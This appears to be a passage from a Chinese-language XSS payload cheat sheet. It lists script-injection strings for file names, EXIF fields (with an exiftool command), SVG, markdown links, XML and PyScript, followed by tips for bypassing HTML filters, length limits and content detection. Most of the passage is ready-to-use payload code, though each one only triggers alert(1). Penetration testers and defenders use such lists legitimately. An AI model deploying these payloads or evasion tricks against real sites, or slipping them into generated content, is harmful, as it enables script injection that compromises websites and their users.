 #### 用在其他功能点

**文件名**
```
"><svg onload=alert(1)>.png
```

**exif 数据**
```bash
exiftool -Artist='"><script>alert(1)</script>' test.jpeg
```

**SVG**
```svg
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

**markdown**
```
[Click Me](javascript:alert('1'))
```

**xml**
```xml
<a:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```

#### pyscript

- https://github.com/pyscript/pyscript

```script
<link rel="stylesheet" href="https://pyscript.net/alpha/pyscript.css" />
<script defer src="https://pyscript.net/alpha/pyscript.js"></script>

<py-script>'\74img/src/onerror\75alert(1)\76'</py-script>
```

---

## 绕过技巧

1. 使用无害的 payload,类似`<b>,<i>,<u>`观察响应,判断应用程序是否被 HTML 编码,是否标签被过滤,是否过滤 `<>` 等等;
2. 如果过滤闭合标签,尝试无闭合标签的 payload `<b,<i,<marquee` 观察响应;

### 长度限制

绕过长度限制
```js
"onclick=alert(1)//
"><!--
--><script>alert(xss);<script>
```

### 内容检测

#### 换行
```js
<img src=1
onerror
=alert(1)
```
